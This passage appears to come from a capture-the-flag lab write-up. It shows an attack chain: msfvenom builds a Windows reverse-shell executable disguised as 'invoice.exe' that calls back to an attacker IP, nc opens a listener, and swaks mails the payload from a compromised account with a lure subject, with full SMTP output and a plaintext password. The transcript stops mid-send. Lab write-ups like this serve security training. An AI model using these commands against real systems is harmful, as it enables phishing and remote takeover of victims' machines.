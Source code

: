 ```shell
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.14.83.7 LPORT=4444 -f exe > invoice.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
```

We start a listener on port `4444`.

```shell
$ nc -lvnp 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```

```shell
$ swaks --to oaurelius@brownbrick.co \
      --from lhedvig@brownbrick.co \
      --server 10.10.149.38 \
      --auth LOGIN \
      --auth-user lhedvig@brownbrick.co \
      --auth-password bricks \
      --header "Subject: Important Invoice - Please Review" \
      --attach invoice.exe
*** DEPRECATION WARNING: Inferring a filename from the argument to --attach will be removed in the future.  Prefix filenames with '@' instead.
=== Trying 10.10.149.38:25...
=== Connected to 10.10.149.38.
<-  220 BRICK-MAIL ESMTP
 -> EHLO exegol-thm
<-  250-BRICK-MAIL
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> AUTH LOGIN
<-  334 VXNlcm5hbWU6
 -> bGhlZHZpZ0Bicm93bmJyaWNrLmNv
<-  334 UGFzc3dvcmQ6
 -> YnJpY2tz
<-  235 authenticated.
 -> MAIL FROM:<lhedvig@brownbrick.co>
<-  250 OK
 -> RCPT TO:<oaurelius@brownbrick.co>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Date: Mon, 24 Feb 2025 20:35:38 +0100
 -> To: oaurelius@brownbrick.co
 -> From: lhedvig@brownbrick.co
 -> Subject: Important Invoice - Please Review
 -> Message-Id: <20250224203538.008249@exegol-thm>
 -> X-Mailer: swaks v20201014.0 jetmore.org/john/code/swaks/
 -> MIME-Version: 1.0
 -> Content-Type: multipart/mixed; boundary="----=_MIME_BOUNDARY_000_8249"
 ->
 -> ------=_MIME_BOUNDARY_000_8249
 -> Content-Type: text/plain
 ->
 -> This is a test mailing
 -> ------=_MIME_BOUNDARY_000_8249
 -> Content-Type: application/octet-stream; name="invoice.exe"
 -> Content-Description: invoice.exe
 -> Content-Disposition: attachment; filename="invoice.exe"
```